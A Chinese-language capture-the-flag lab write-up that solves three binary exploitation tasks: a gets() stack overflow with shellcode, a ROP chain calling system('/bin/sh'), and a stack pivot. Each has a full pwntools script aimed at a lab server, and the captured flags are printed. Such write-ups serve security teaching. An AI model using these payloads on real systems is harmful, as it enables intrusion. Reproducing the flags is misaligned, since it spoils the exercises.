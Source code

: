 ## 栈上缓冲区溢出

发现危险函数gets()，我们利用这个函数将返回地址覆盖到shellcode即可。

![image-20241022231528002](https://s2.loli.net/2024/10/22/DdrK4tCBJab5nwZ.png)

```python
from pwn import *

context.log_level = 'DEBUG' # set debug logging
context.arch = "amd64"

# p = process("./sbof2")

p = remote("8.154.20.109", 10100)
p.recvuntil(b"Please input your StudentID:\n")
p.sendline(b"3220103544")
p.recvuntil(b"gift address: ")
buffer_address = int(p.recvline().strip(), 16)

payload = b""
payload += b"a" * 0x108
payload += p64(buffer_address+0x110)
payload += asm(shellcraft.sh())


p.sendline(payload)
p.interactive()

```

![image-20241022213226484](https://s2.loli.net/2024/10/22/thzjkWVHy7JqwvB.png)

![image-20241022212628460](https://s2.loli.net/2024/10/22/dBOnqmfzjlvWT3H.png)

## Return-Oriented-Programming

### 1

首先，我们检查一下程序的安全保护，源程序为 64位，开启了 NX 保护。

![image-20241022225707311](https://s2.loli.net/2024/10/22/sz37DKVadpBclXw.png)

使用 IDA 反编译以确定漏洞位置：可以利用read函数栈溢出。

![image-20241022221437963](https://s2.loli.net/2024/10/22/TMSkeOjVsgu7PHq.png)

利用 ropgadget，我们可以看看有没有 '/bin/sh' ，'ret', 'pop rdi’ 等字符串或gadget存在，发现存在则记录地址。

![image-20241022223459755](https://s2.loli.net/2024/10/22/yUtkniVPbMZLHe5.png)

拿到了这些gadget，我们可以构造 payload

攻击代码如下：

```python
from pwn import *

context.log_level = 'DEBUG' # set debug logging
context.arch = 'amd64'
# p = process("./rop2")
p = remote("8.154.20.109", 10101)
binary = ELF("./rop2")
rop = ROP(binary)
p.recvuntil(b"Please input your StudentID:\n")
p.sendline(b"3220103544")

ret_addr = 0x00444a40
bin_sh_addr = 0x006d50f0
pop_rdi_addr = 0x00400716


payload = b''
payload += b"A" * 0x58
payload += p64(pop_rdi_addr) # pop rdi ; ret
payload += p64(bin_sh_addr) # @ .data
payload += p64(ret_addr)
payload += p64(binary.sym["system"])

p.sendlineafter(b"[*] Please input the length of data:\n", str(len(payload)))
p.sendlineafter(b"[*] Please input the data:\n", payload)

p.interactive()
```

![image-20241022223338875](https://s2.loli.net/2024/10/22/dN3H6hsB5imLECb.png)

拿到flag：ssec2023{r0p_bAs1c_biNarY|212ce834}



### 2

首先，我们检查一下程序的安全保护，源程序为 64位，开启了 NX 保护。

![image-20241022225656295](https://s2.loli.net/2024/10/22/agTt4Bb5vyYlRis.png)

利用 ropgadget，我们可以看看有没有 '/bin/sh' ，'ret', 'pop rdi’ 等字符串或gadget存在，发现存在则记录地址。但这题并没有包含"/bin/sh"等重要字符串，我们需要做栈迁移。将 rbp 覆盖为 gbuffer ， ret_addr 覆盖为 leave; ret , 把栈迁到 gbuffer 上。

![image-20241022225645412](https://s2.loli.net/2024/10/22/GJmHeZ13Ytd6QOV.png)

攻击代码如下：

```python
from pwn import *

context.log_level = 'DEBUG' # set debug logging
context.arch = 'amd64'
REMOTE = True
if REMOTE:
    p = remote('8.154.20.109', 10102)
else:
    p = process('./rop3')

binary = ELF("./rop2")
rop = ROP(binary)
p.recvuntil(b"Please input your StudentID:\n")
p.sendline(b"3220103544")
p.recvuntil(b"gift system address: ")

system_addr = int(p.recv(8).strip(), 16)
ret_addr = 0x00400586
pop_rdi_addr = 0x00400823
gbuffer = 0x006020A0
leave_ret=0x00400700

payload = b"A" * 8
payload += p64(pop_rdi_addr)
payload += p64(gbuffer + 5 * 8)
payload += p64(ret_addr)
payload += p64(system_addr)
payload += b"/bin/sh\x00"

p.sendlineafter(b"\n", payload)


payload = b""
payload += b"A" * 0x40
payload += p64(gbuffer)
payload += p64(leave_ret)
p.sendlineafter(b">", payload)


p.interactive()
```

![image-20241022230342659](https://s2.loli.net/2024/10/22/inJktZrVh8uT2HX.png)

flag: ssec2023{r0p_1RiVi4L_p1v0t|154e0f76}